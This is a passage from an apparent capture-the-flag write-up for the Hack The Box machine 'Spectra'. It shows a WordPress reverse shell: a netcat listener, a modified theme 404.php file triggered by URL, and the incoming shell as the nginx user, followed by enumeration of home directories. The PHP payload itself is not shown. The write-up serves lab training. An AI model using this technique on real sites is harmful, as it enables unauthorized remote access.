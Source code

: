 https://www.hackingarticles.in/wordpress-reverse-shell/
https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/

- Listen:
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
```

- Go to .php edited:
http://spectra.htb/main/wp-content/themes/twentyseventeen/404.php

- Reverse shell established:
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.67] from (UNKNOWN) [10.10.10.229] 37258
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
 10:01:15 up 14 min,  0 users,  load average: 0.05, 0.12, 0.20
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```

We have to access to katie user:
```
$ cd ..
$ ls -la
total 32
drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 Mar 19 09:49 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
$ pwd
/home
$ ls -la
total 32
drwxr-xr-x  8 root    root    4096 Feb  2 15:55 .
drwxr-xr-x 22 root    root    4096 Feb  2 14:52 ..
drwx------  4 root    root    4096 Jul 20  2020 .shadow
drwxr-xr-x 20 chronos chronos 4096 Mar 19 09:49 chronos
drwxr-xr-x  4 katie   katie   4096 Feb 10 00:38 katie
drwxr-xr-x  5 nginx   nginx   4096 Feb  4 12:41 nginx
drwxr-x--t  4 root    root    4096 Jul 20  2020 root
drwxr-xr-x  4 root    root    4096 Jul 20  2020 user
$ ls katie
log
user.txt

```
